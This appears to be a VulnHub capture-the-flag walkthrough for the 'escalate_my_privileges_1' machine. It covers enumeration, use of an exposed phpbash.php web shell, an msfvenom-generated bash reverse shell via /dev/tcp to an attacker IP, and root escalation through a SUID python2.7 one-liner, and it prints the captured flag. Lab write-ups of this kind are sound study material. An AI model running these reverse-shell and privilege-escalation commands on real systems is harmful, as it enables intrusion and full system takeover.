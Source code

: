 

---

````markdown
# 🧠 VulnHub Writeup: escalate_my_privileges_1

- **Machine Name:** escalate_my_privileges_1  
- **IP Address:** `10.38.1.120`  
- **Difficulty:** Beginner – Intermediate  
- **Hash (MD5):** `d44f39d1ef8c5e3d9ef5f82a7afafe5b`  
- **Goal:** Gain root access and capture `proof.txt`

---

## 🔍 1. Enumeration

### 🔎 Nmap Scan
```bash
sudo nmap -sC -sV -oN nmap.txt 10.38.1.120
````

> *(Standard service and version detection scan. Based on results, a web server was assumed.)*

---

### 📁 Web Enumeration

#### `dirb` Scan

```bash
dirb http://10.38.1.120 /usr/share/dirb/wordlists/common.txt
```

**Discovered Paths:**

* `/cgi-bin/` — `403 Forbidden`
* `/index.html` — `200 OK`
* `/phpinfo.php` — `200 OK`
* `/robots.txt` — `200 OK`

#### `/robots.txt` Content:

```txt
User-agent: *
Disallow: /phpbash.php
```

🕵️ Interesting Discovery: `/phpbash.php`
This appears to be a **PHP web shell** and provides a great entry point.

---

## 🎯 2. Initial Access

### ✅ Web Shell Access

Navigating to:

```
http://10.38.1.120/phpbash.php
```

Provides a working web shell under the user `apache`.

---

### 🖥️ Reverse Shell

Generated a reverse shell using `msfvenom`:

```bash
msfvenom -p cmd/unix/reverse_bash LHOST=10.38.1.121 LPORT=5555 -f raw
```

**Payload Used:**

```bash
bash -c '0<&125-;exec 125<>/dev/tcp/10.38.1.121/5555;sh <&125 >&125 2>&125'
```

**Listener Setup:**

```bash
nc -lvp 5555
```

**Successful Shell:**

```
Connection from: 10.38.1.120
User: apache (uid=48)
```

---

## 📂 3. Post-Exploitation

Listing files in the current directory:

```bash
ls
```

**Found:**

* `Credentials.txt`
* `backup.sh`
* `runme.sh`
* `test.txt`

---

## 🔐 4. Privilege Escalation

### 🔍 SUID Binary Enumeration

```bash
find / -perm -4000 -type f -ls 2>/dev/null
```

**Interesting Find:**

```bash
/usr/bin/python2.7
```

This binary has the SUID bit set and can be abused for privilege escalation.

---

### ⚡ Privilege Escalation Using Python SUID

```bash
/usr/bin/python2.7 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

**Privilege Escalation Successful:**

```bash
id
uid=0(root) gid=48(apache) groups=48(apache)
```

---

## 🏁 5. Capture the Flag

```bash
cd /root
cat proof.txt
```

**Flag:**

```
Best of Luck
628435356e49f976bab2c04948d22fe4
```

---

## ✅ Summary

| Step                    | Action                                          |
| ----------------------- | ----------------------------------------------- |
| 🔍 Enumeration          | Discovered `/phpbash.php` via `robots.txt`      |
| 🧠 Initial Access       | Gained shell access as `apache` using web shell |
| 🚀 Privilege Escalation | Abused SUID `python2.7` to get root access      |
| 🏁 Flag Captured        | `628435356e49f976bab2c04948d22fe4`              |

---

> 🛡️ **Security Takeaway:**
> This machine highlights how dangerous it is to leave debugging tools like `phpbash.php` exposed on production environments. Additionally, misconfigured SUID binaries (especially interpreters like Python) can be easily exploited for full system compromise.

---


